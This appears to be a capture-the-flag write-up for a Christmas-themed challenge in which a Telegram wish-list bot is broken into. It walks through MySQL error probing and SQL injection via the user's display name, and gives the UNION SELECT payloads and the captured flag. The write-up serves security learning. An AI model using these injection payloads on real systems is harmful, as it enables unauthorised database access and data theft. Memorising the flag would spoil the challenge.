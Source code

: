 # Day 12: SmartWishList

## Challenge text

```
Santa's being really innovative this year!

Send your wishes directly over your favorite messenger (telegram):
@smartwishlist_bot
```

## Solution

I've first tried to generated unexpected responses via unexpected/malicious
input (negative numbers, big numbers, \0, $(), `<script></script>`, etc.).

Didn't work, finally thought about how the wishes are stored -> SQL

Wish to big:
(1406, "Data too long for column 'wish' at row 127")

Temporary error message from the server:
(1292, "Truncated incorrect DOUBLE value: '5.7.20'")

Conclusion: Seems to be MySQL

The following is ok:
/addwish 012345678901234567890123456789012345678901234
Too long:
/addwish 0123456789012345678901234567890123456789012345

45 characters are allowed for column "wish".

Can't figure out something useful with /removewish, etc.

I finally figured out that an SQL injection is possible by changing my name (not
the username). The bot uses the name to determine which wish belongs to which
user.

This took me a while to exploit as I'm not really familiar with SQL.

Name: ' OR (wish like "%HV");#'

But unfortunately the wish is not in this table.

Version - 5.7.20

' UNION SELECT 1,table_name from INFORMATION_SCHEMA.TABLES;#

- [...]
- 1 - SecretStore
- 1 - User
- 1 - Wish

' UNION SELECT 1,COLUMN_NAME from INFORMATION_SCHEMA.columns;#

- flag

Solution: ' UNION SELECT 1,flag from SecretStore;#

Flag: `HV18-M4k3-S0m3-R34L-N1c3-W15h`
